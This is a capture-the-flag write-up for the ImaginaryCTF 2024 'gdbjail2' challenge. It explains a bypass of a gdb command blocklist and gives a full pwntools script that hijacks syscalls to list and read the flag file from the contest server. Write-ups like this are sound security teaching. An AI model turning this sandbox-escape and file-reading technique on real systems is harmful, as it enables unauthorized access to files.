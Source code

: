 ```yaml
---
layout: post
title:  "gdbjail2 - ImaginaryCTF 2024"
---
```


https://ctftime.org/event/2396

# gdbjail2 (misc)

this time with a blocklist

## Solution

The main difference in this one is the blacklist:
```python
blacklist = ["p", "-", "&", "(", ")", "[", "]", "{", "}", "0x"]
```
So we can't just set $rip.

We are debugging cat without any arguments, so it just hangs there forever waiting for input.
It takes input using the read syscall.
We can just add a breakpoint before read, change the registers and continue.
Allowing us to call any syscall that we want.

The way to find where the syscall is might be a little bit harder, I just
installed pwndbg on the Docker image, and used `stepuntilasm syscall`.
But you can also step to it or use a custom gdb script.

You can probably just call execve and be done with it.
I unfortunately chose a harder path.

1. open flag dir
2. call opendents
3. read flag filename
4. open flag
5. read flag
6. print flag from mem

Its pretty straight forward, there are two problems though.

First, The flag filename has the letter 'p' in it which is on the blacklist.
We can bypass that by using integers instead of chars, see the `alloc_str` function.

And second, finding writeable memory
We can just do `set $rax = "AAAA"`.
This gives us a heap string of any size we want.

```python
#!/usr/bin/env python3

from pwn import *

def sendfile(fd1, fd2, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 40")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd1}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = {fd2}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = 0".encode())
    p.sendlineafter(b"(gdb) ", f"set $r10 = 64".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def dump(offset):
    p.sendlineafter(b"(gdb) ", b"set $rax = 1")
    p.sendlineafter(b"(gdb) ", b"set $rdi = 1")
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{'B'}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $r14 = 65535 * {offset}".encode())
    p.sendlineafter(b"(gdb) ", b"set $si = $si + $r14")
    p.sendlineafter(b"(gdb) ", f"set $rdx = 256".encode())
    p.sendlineafter(b"(gdb) ", b"continue")
    data = p.recv()
    print(f"DEBUGPRINT[3]: clean.py:16: p.recv()={data}")
    return data 

def write(fd, data, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 1")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{data}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = {n}".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def _open(filename, mode):
    p.sendlineafter(b"(gdb) ", b"set $rax = 2")
    alloc_str(filename, "$rdi")
    # p.sendlineafter(b"(gdb) ", f"set $rdi = \"{filename}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = {mode}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = 0".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def getdents(fd, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 78")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{'A' * 256}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = {n}".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def read(fd, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 0")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{'A'*n}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = {n}".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def alloc_str(string, reg):
    p.sendlineafter(b"(gdb) ", f"set {reg} = \"{'A'*len(string)}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $start = {reg}".encode())

    for chunk in string:
        chunk = ord(chunk)
        p.sendlineafter(b"(gdb) ", f"set *{reg} = {chunk}".encode())
        p.sendlineafter(b"(gdb) ", f"set {reg} = {reg} + 1".encode())

    p.sendlineafter(b"(gdb) ", f"set *{reg} = 0".encode())
    p.sendlineafter(b"(gdb) ", f"set {reg} = $start".encode())

with remote("gdbjail2.chal.imaginaryctf.org", 1337) as p:
    p.recvuntil(b":25\n")

    p.sendlineafter(b"(gdb) ", b"break *write+21")
    p.sendlineafter(b"(gdb) ", b"break *write+23")
    p.sendlineafter(b"(gdb) ", b"continue")
    p.sendline(b"")

    _open(".", 0)
    p.sendlineafter(b"(gdb) ", b"continue")

    getdents(3, 256)
    p.sendlineafter(b"(gdb) ", b"continue")
    
    data = dump(300)
    idx = data.find(b'.txt')
    flag = data[idx-20:idx+4]
    p.sendlineafter(b"(gdb) ", b"continue")

    _open(flag.decode(), 0)
    p.sendlineafter(b"(gdb) ", b"continue")
    
    read(4, 64)
    p.sendlineafter(b"(gdb) ", b"continue")
    
    dump(200)
    p.sendlineafter(b"(gdb) ", b"continue")
```

## Flag
`ictf{i_l0ve_syscalls_eebc5336}`

shafouz 2024/07/21
